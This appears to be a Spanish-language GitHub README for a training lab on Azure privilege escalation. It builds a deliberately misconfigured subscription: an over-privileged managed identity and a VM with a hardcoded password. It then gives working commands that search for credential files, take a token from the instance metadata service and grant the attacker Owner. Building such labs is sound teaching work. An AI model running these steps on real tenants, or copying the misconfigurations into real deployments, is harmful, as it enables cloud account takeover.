 # Escalada-de-Privilegios-en-Azure

# escenario 


# Arquitectura de referencia

![privilege escalation drawio](https://github.com/user-attachments/assets/65372600-4578-4617-b7be-b849b54db399)


## Fase 1: Configuración del Entorno Vulnerable

### Paso 1: Crear un Grupo de Recursos

Este grupo de recursos contendrá todos los elementos del laboratorio.

az group create --name lab-escalation --location eastus

### Paso 2: Crear una Identidad Administrada Asignada por el Usuario

Esta identidad tendrá permisos elevados que serán explotados más adelante.

az identity create --name labidentity --resource-group lab-escalation

### Paso 3: Introducir la Vulnerabilidad Principal

Asignamos el rol de User Access Administrator a la identidad sobre toda la suscripción. Este es un privilegio excesivo y el núcleo de la vulnerabilidad, ya que este rol permite gestionar los permisos de otros usuarios.

Obtener el ID de la suscripción

subscriptionId=$(az account show --query id --output tsv)

Obtener el ID de la entidad de servicio de la identidad administrada

identityPrincipalId=$(az identity show --name "labidentity" --resource-group "lab-escalation" --query principalId --output tsv)

 Asignar el rol de "User Access Administrator" a la identidad administrada sobre toda la suscripción
 ESTE ES EL CAMBIO CLAVE
 
az role assignment create \
    --assignee $identityPrincipalId \
    --role "User Access Administrator" \
    --scope "/subscriptions/$subscriptionId"


### Paso 4: Crear una Máquina Virtual y Asignarle la Identidad Administrada

Esta VM será el punto de entrada para los participantes.

az vm create \
    --resource-group "lab-escalation" \
    --name "compromised-vm" \
    --image "Ubuntu2204" \
    --admin-username "franklin" \
    --admin-password "Franklin.123456" \
    --assign-identity "labidentity"

### Paso 5: Crear un Usuario con Permisos Limitados

Creamos un Service Principal con permisos para ejecutar comandos en la VM. El rol Virtual Machine Contributor es necesario para permitir la ejecución de run-command.

Obtener el ID de la VM

vmId=$(az vm show --resource-group "lab-escalation" --name "compromised-vm" --query id --output tsv))

Crear el Service Principal con permisos sobre la VM

sp_credentials=$(az ad sp create-for-rbac --name "attacker-sp" --role "Virtual Machine Contributor" --scopes $vmId)

Mostrar las credenciales que se entregarán a los participantes

echo "--- Credenciales para los Participantes del Workshop ---"

echo $sp_credentials

echo "--------------------------------------------------------"




¡Importante! ejecuta el archivo create-lab.sh en la consola de azure para  desplegar todo lo anterior mencionado y ademas las herramientas que se utilizaran en la maquina virtual vulnerable.

## Fase 2: Ejecución de la Escalada de Privilegios 

hacemos busqueda de credenciales con el siguiente script:

find / -type f -iname "credentials*" 2>/dev/null -exec grep -iH "password" {} \;

### 2.1. Obtener Acceso Inicial y Verificar Control
Iniciar sesión con las credenciales de atacante y confirmar que se pueden ejecutar comandos en la VM.

1. Iniciar sesión con las credenciales proporcionadas
   
az login --service-principal \
    -u "EL_APPID_PROPORCIONADO" \
    -p "EL_PASSWORD_PROPORCIONADO" \
    --tenant "EL_TENANT_ID_PROPORCIONADO"


### 2. Descubrimiento de la Identidad Administrada

Dentro de la VM (simulado a través de run-command), el siguiente paso es descubrir la identidad administrada.

Este script completo se ejecuta dentro de la VM para obtener el token y listar recursos

  1. Obtener el token de acceso de la identidad, usando jq para extraerlo
     
        token=$(curl -s "http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01&resource=https://management.azure.com/" -H Metadata:true | jq -r .access_token)
        
 2. Usar el token para realizar una llamada a la API de Azure y listar recursos
         
       curl -s -X GET -H "Authorization: Bearer $token" "https://management.azure.com/subscriptions/$(az account show --query id -o tsv)/resourceGroups/lab-escalation/resources?api-version=2021-04-01"

Resultado Esperado: Una salida JSON con la lista de todos los recursos del grupo lab-escalation. Esto prueba que el atacante ahora opera con los permisos de la identidad (User Access Administrator).

### Paso 2.1: Escalada Final a Propietario (Owner)
Utilizar el poder adquirido para tomar control total.
A. (En la máquina local) Obtener el Object ID del Service Principal atacante

user_object_id=$(az ad sp list --display-name "attacker-sp" --query "[0].id" -o tsv)
echo "El Object ID del atacante es: $user_object_id"

consultamos el suscription ID con el siguiente comando:
az account list --output table

B. (Ejecutado en la VM) Usar la identidad para asignar el rol de Owner al atacante

  Reemplaza <Tu_Object_ID> y <ID_de_tu_Suscripcion> con tus valores.
  
  az login --identity > /dev/null 2>&1


  Asignar el rol de Propietario al Object ID del atacante
  
  az role assignment create --assignee "<Tu_Object_ID>" --role "Owner" --scope "/subscriptions/<ID_de_tu_Suscripcion>"

    
Resultado Esperado: Una salida JSON que confirma la creación de la nueva asignación de rol.

para deslogearte de la identidad administrada ejecuta el siguiente script

az logout

e inicia sesion con el owner que es el service principal

az login --service-principal \
    -u "EL_APPID_PROPORCIONADO" \
    -p "EL_PASSWORD_PROPORCIONADO" \
    --tenant "EL_TENANT_ID_PROPORCIONADO"

(En la máquina local) El atacante, ahora Owner, Consulta los grupos de recursos existentes.

az group list --output table

Ahora crea uno nuevo para comprobar los permisos:

az group create --name "prueba-de-control-total" --location "westus"

Vuelve a consultar para confirmar la creacion.

az group list --output table
